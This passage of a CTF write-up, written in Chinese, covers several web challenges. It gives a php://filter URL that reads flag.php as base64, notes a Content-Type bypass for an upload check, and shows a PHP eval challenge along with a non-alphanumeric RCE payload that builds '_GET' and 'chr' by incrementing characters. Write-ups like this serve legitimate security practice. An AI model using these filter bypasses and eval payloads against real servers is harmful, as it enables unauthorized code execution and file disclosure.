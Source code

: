 老经典了

```
http://43.143.7.97:28302/?filter=php://filter/read=convert.base64-encode/resource=flag.php
```

### easy_upload

简单的文件上传

**Content-Type**的绕过

### Challenge__rce

```php
<?php
error_reporting(0);
if (isset($_GET['hint'])) {
    highlight_file(__FILE__);
}
if (isset($_POST['rce'])) {
    $rce = $_POST['rce'];
    if (strlen($rce) <= 120) {
        if (is_string($rce)) {
            if (!preg_match("/[!@#%^&*:'\-<?>\"\/|`a-zA-Z~\\\\]/", $rce)) {
                eval($rce);
            } else {
                echo("Are you hack me?");
            }
        } else {
            echo "I want string!";
        }
    } else {
        echo "too long!";
    }
}
```

**hint:灵感来源于ctfshow吃瓜杯Y4大佬的题**

利用php中字母可以按顺序自增的原理，通过数组转字符串来得到字符串"Array"从而构造rce

```php
<?php
$_0.=[];
$_=$_0[3];
$_++;
$__.=++$_;
$_++;$_++;$_++;$_++;
$__.=++$_.$_0[1];
$_=_.$__(71).$__(69).$__(84);


#rce=%24_0.%3D%5B%5D%3B%24_%3D%24_0%5B3%5D%3B%24_%2B%2B%3B%24__.%3D%2B%2B%24_%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24__.%3D%2B%2B%24_.%24_0%5B1%5D%3B%24_%3D_.%24__(71).%24__(69).%24__(84)%3B%24%24_%5B1%5D($$_[0])%3B
```
